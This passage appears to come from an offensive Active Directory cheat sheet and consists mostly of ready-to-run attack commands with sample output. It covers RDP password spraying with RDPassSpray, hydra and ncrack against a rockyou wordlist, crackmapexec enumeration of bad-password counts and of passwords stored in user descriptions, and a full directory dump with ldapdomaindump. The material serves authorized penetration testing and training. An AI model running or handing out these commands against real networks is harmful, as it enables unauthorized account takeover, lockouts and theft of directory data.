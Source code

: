 
### Spray passwords against the RDP service

- Using [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to target RDP services.
    
    ```powershell
    git clone https://github.com/xFreed0m/RDPassSpray
    python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
    ```
    
- Using [hydra](https://github.com/vanhauser-thc/thc-hydra) and [ncrack](https://github.com/nmap/ncrack) to target RDP services.
    
    ```powershell
    hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
    ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
    ```
    

### BadPwdCount attribute

> The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

```powershell
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

## Password in AD User comment

```powershell
$ crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
GET-DESC... 10.0.2.11       389    dc01    [+] Found following users: 
GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
```

There are 3-4 fields that seem to be common in most AD schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.

```powershell
enum4linux | grep -i desc

Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
```

or dump the Active Directory and `grep` the content.

```powershell
ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
```
